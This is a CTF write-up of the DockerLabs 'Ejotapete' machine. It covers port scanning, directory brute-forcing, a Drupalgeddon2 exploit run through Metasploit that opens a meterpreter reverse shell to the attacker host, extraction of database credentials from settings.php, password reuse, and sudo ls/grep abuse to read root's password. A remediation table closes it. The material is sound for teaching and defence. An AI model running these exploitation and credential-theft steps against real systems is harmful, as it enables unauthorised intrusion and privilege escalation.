







# Ejotapete — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Easy · **Target IP:** 172.17.0.3 · **Attacker IP:** 172.17.0.1

## Machine info



## Summary

Ejotapete is an easy machine centered on a single outdated CMS install. The web root itself is locked down, but a Drupal installation sitting in a subdirectory is running a version vulnerable to Drupalgeddon2, giving remote code execution straight away. From there, Drupal's own configuration file leaks database credentials that turn out to be reused for a real system account, and that account has just enough sudo rights to read any file on the box as root — including root's own password.

**Attack chain:** Recon → Web enumeration finds `/drupal/` → version disclosure confirms Drupal 8.5.0 → Drupalgeddon2 RCE (Metasploit) → shell as www-data → `settings.php` leaks DB credentials → password reused for `su ballenita` → `sudo` NOPASSWD on `ls`/`grep` abused for arbitrary file read → root's password disclosed → `su root`

## 1. Reconnaissance

Confirmed the host was reachable, then ran a full TCP port scan with service/version detection and default scripts.

```
ping -c 1 172.17.0.3
```



```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.3
```

Results:

| Port | Service | Version |
|------|---------|---------|
| 80/tcp | http | Apache httpd 2.4.25 (Debian) |

Only one port open, and the root of the site returns nothing useful.

## 2. Web Enumeration

Browsing to the site directly returns a bare 403:



A directory brute-force on the root found a subdirectory serving the actual application:

```
gobuster dir -u http://172.17.0.3 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt
```

```
drupal    (Status: 301)
```

Enumerating that directory confirms a Drupal install with the usual structure:

```
gobuster dir -u http://172.17.0.3/drupal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt
```

```
index.php       (Status: 200)
contact          (Status: 200)
search           (Status: 302)
user             (Status: 302)
themes           (Status: 301)
modules          (Status: 301)
node             (Status: 200)
admin            (Status: 403)
sites            (Status: 301)
core             (Status: 301)
install.php      (Status: 301)
profiles         (Status: 301)
update.php       (Status: 403)
README.txt       (Status: 200)
vendor           (Status: 403)
robots.txt       (Status: 200)
```

## 3. Identifying the Drupal Version

The gobuster redirect for `install.php` points to `/drupal/core/install.php`. Drupal shows this page whenever it detects an existing installation, and it discloses the exact version running:



Drupal 8.5.0 — a version affected by Drupalgeddon2.

## 4. Exploitation: Drupalgeddon2

```
searchsploit drupal 8.5.0
```

```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution              | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)           | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                  | php/webapps/44448.py
```

Used the Metasploit module directly:

```
use exploit/unix/webapp/drupal_drupalgeddon2
show options
```

```
Module options (exploit/unix/webapp/drupal_drupalgeddon2):
   RHOSTS       172.17.0.3
   RPORT        80
   TARGETURI    /drupal
Payload options (php/meterpreter/reverse_tcp):
   LHOST  172.17.0.1
   LPORT  4444
```

Options already pointed at the target, so ran it directly:

```
exploit
```

```
[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable version 8
[*] Sending stage (72686 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.3:55418)
```

Dropped to a shell and stabilized it:

```
shell
script /dev/null -c bash
export TERM=xterm
```

## 5. Post-Exploitation: Credential Disclosure

Searched for Drupal's configuration file and grepped it directly for database credentials:

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```



```
'database' => 'database_under_beta_testing',
'username' => 'ballenita',
'password' => 'ballenitafeliz',
'host'     => 'localhost',
'port'     => '3306',
'driver'   => 'mysql',
```

A system account with the same name exists — worth trying the same password there.

## 6. Lateral Movement

```
su ballenita
```



The database password was reused for the system account.

## 7. Privilege Escalation

```
sudo -l
```

```
User ballenita may run the following commands on 4316a16b9a98:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Neither `ls` nor `grep` has a documented shell-escape technique in GTFOBins, but both let root read anything on the filesystem. Used that to enumerate root's home directory and read what was in it:

```
sudo -u root /bin/ls /root
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```



```
secretitomaximo.txt
nobodycanfindthispasswordrootrocks
```

```
su root
```

```
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

Root achieved.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Outdated Drupal (8.5.0), vulnerable to Drupalgeddon2 (CVE-2018-7600) | Keep Drupal core patched; upgrade past 8.5.1 |
| Database credentials stored in plaintext in `settings.php`, readable by the web user | Restrict file permissions on configuration files; use environment variables or a secrets manager for credentials |
| Password reused between the database account and a system account | Enforce unique credentials per service and account |
| Overly broad `sudo` rule (`NOPASSWD: /bin/ls, /bin/grep`) allowing arbitrary file read as root | Avoid granting sudo on general-purpose binaries; if needed, restrict to specific files/arguments via sudoers |
| Sensitive file (`secretitomaximo.txt`) left readable in root's home directory | Never store plaintext credentials in files, even in directories assumed to be private |
